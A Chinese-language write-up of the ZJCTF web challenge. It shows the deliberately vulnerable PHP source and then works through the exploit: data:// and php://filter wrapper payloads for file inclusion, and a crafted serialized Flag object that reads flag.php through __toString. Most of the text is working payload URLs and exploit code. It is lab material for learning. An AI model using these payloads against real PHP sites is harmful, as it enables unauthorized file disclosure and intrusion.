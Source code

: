 #

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

构建playload

排除了flag

/?text="welcome to the zjctf"&file="useless.php"&password=O:4:"Flag":0:{}

/?text=welcome+to+the+zjctf&file=useless.php&password=O%3a4%3a%22Flag%22%3a0%3a%7b%7d

使用伪协议进入到里面获取useless.php的内容

```bash
?text=data://text/plain,welcome to the zjctf&file=php://filter/convert.base64-encode/resource=useless.php
```

```bash
?text=data://text/plain,welcome to the zjctf&file=php://filter/convert.strip_tags/resource=useless.php
```

```php
<?php  
class Flag {  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

魔术方法 __toString():
当对象被当作字符串使用时，__toString() 方法会被自动调用。

构造playload:

```php
class Flag {
    public $file;
    public function __construct(){
        $this->file = "flag.php"
    }
}
$a = new Flag();
$b = serialize($a);
echo urlencode($b); // O%3A4%3A%22Flag%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3B%7D
```

```bash 他的playload
text=data://text/plain,welcome to the zjctf&file=useless.php&password=O%3A4%3A%22Flag%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3B%7D
```

```bash 我的playload
/?text=welcome+to+the+zjctf&file=useless.php&password=O%3A4%3A%22Flag%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3B%7D
```

再查看源码即可;
